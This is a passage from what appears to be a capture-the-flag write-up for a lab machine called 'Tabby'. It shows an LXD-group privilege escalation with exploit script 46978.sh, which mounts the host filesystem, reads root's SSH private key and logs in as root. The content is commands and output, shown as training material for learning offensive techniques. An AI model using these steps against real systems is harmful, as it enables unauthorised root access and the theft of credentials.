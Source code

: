 ```bash
Creating privesc
Error: Not Foundash@tabby:/tmp$ mv alpine-v3.16-x86_64-20220611_1917.tar.gz /dev/shm
```
We got an error because the folder `/tmp` is not accessible by `lxd`, so we will perform the attack in `/dev/shm`:
```bash
ash@tabby:/tmp$ mv 46978.sh /dev/shm
ash@tabby:/tmp$ cd /dev/shm/
ash@tabby:/dev/shm$ ./46978.sh -f alpine-v3.16-x86_64-20220611_1917.tar.gz 
[*] Listing images...

+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
| alpine | a46b007d7802 | no     | alpine v3.16 (20220611_19:17) | x86_64       | CONTAINER | 3.07MB | Jun 11, 2022 at 5:34pm (UTC) |
+--------+--------------+--------+-------------------------------+--------------+-----------+--------+------------------------------+
Creating privesc
Device giveMeRoot added to privesc         
~ # whoami
root
~ # cd /mnt/root/
/mnt/root # ls
bin         etc         lib64       mnt         run         sys
boot        home        libx32      opt         sbin        tmp
cdrom       lib         lost+found  proc        snap        usr
dev         lib32       media       root        srv         var
/mnt/root # ls root/ -la
/mnt/root/root # ls -la
total 40
drwx------    6 root     root          4096 Aug 19  2021 .
drwxr-xr-x   20 root     root          4096 Sep  7  2021 ..
lrwxrwxrwx    1 root     root             9 May 21  2020 .bash_history -> /dev/null
-rw-r--r--    1 root     root          3106 Dec  5  2019 .bashrc
drwx------    2 root     root          4096 May 19  2020 .cache
drwxr-xr-x    3 root     root          4096 Aug 19  2021 .local
-rw-r--r--    1 root     root           161 Dec  5  2019 .profile
-rw-r--r--    1 root     root            66 May 21  2020 .selected_editor
drwx------    2 root     root          4096 Aug 19  2021 .ssh
-r--------    1 root     root            33 Jun 11 13:18 root.txt
drwxr-xr-x    3 root     root          4096 Aug 19  2021 snap
```
We obtained root access to the container and all the files root can see, but we are still in the container.
Now, we can see the folder `.ssh`, if we list it we can obtain root's `id_rsa` and connect to it via ssh:
```bash
# Victim machine
/mnt/root/root # ls .ssh
authorized_keys  id_rsa           id_rsa.pub
/mnt/root/root # cat .ssh/id_rsa
# Attacker machine
❯ echo "-----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----" > Results/root_id_rsa
❯ chmod 600 Results/root_id_rsa
❯ ssh root@megahosting.htb -i Results/root_id_rsa
root@tabby:~# hostname -I
10.10.10.194 10.187.32.1 
```
We obtained root access to the victim machine.